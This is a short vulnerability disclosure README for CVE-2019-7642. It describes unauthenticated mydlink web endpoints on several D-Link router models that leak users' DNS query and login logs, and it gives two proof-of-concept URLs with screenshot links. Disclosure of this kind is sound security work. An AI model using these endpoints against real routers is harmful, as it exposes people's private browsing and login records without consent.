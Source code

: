# CVE-2019-7642
D-Link routers with the mydlink feature have some web interfaces without authentication requirements. An attacker can remotely obtain users' DNS query logs and login logs.

Vulnerable targets include but are not limited to the latest firmware versions of DIR-817LW (A1-1.04), DIR-816L (B1-2.06), DIR-850L (A1-1.09) and DIR-868L (A1-1.10).

PoC1: http://target/mydlink/get_LogDnsQuery.asp
![poc1](https://github.com/xw77cve/CVE-2019-7642/blob/master/CVE-2019-7642-poc1.PNG)
PoC2: http://target/mydlink/get_TriggedEventHistory.asp
![poc2](https://github.com/xw77cve/CVE-2019-7642/blob/master/CVE-2019-7642-poc2.PNG)

